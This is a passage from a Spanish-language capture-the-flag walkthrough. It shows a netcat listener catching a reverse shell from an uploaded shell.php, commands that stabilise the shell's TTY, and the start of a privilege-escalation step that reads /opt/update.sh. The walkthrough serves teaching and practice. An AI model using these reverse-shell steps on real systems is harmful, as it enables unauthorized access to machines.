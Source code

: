 Veremos que es donde esta subido el archivo que se descargo el `problem_url=` por lo que nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y pulsamos en el `shell.php`, si volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.3] 54126
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user boss

Antes de nada si vamos al `/opt` vemos el siguiente `script`:

```shell
cat /opt/update.sh
```

Info:

```bash
#!/bin/bash

# Comprobar si el usuario 'boss' tiene algún proceso en ejecución
# También buscar procesos asociados a "script" o shells indirectas
if pgrep -u boss > /dev/null; then
    # Mostrar procesos activos del usuario boss para depuración (opcional)
    echo "Procesos activos del usuario boss:"
    ps -u boss

    # Matar todos los procesos del usuario 'boss' incluyendo 'script'
    pkill -u boss
    pkill -9 -f "script"

    # Confirmar que los procesos fueron terminados
    if pgrep -u boss > /dev/null; then
        echo "No se pudieron terminar todos los procesos del usuario boss."
    else
        echo "El usuario boss ha sido desconectado por seguridad."
    fi
else
    echo "El usuario boss no está conectado."
fi
```